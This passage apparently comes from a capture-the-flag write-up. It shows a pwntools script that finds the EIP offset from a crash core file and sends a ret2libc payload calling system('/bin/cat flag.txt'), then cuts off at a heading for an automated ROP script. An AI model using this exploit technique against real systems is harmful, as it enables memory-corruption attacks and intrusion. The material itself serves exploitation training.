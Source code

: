 ```python
io.wait()

# Open the corefile
core = io.corefile

# Print out the address of EIP at the time of the crash (segfault)
eip_value = core.eip
eip_offset = cyclic_find(eip_value)
info('located EIP offset at {a}'.format(a=eip_offset))

# Craft a new payload which puts system('/bin/cat flag.txt') at the correct offset
# I need to research fit() not sure about how this works
payload = fit({
     eip_offset: [elf.symbols.system,
                  0x0,
                  binCat_addr]
} 
)

# Send payload to a new process
io = start()
io.sendline(payload)
io.recv()

# Grab flag.txt
flag = io.recvline()
success(flag)
```

<figure><img src="../../.gitbook/assets/image (152).png" alt=""><figcaption><p>Result</p></figcaption></figure>

### Automate Exploitation with ROP (Additional Automation)

`auto-ROP.py`:
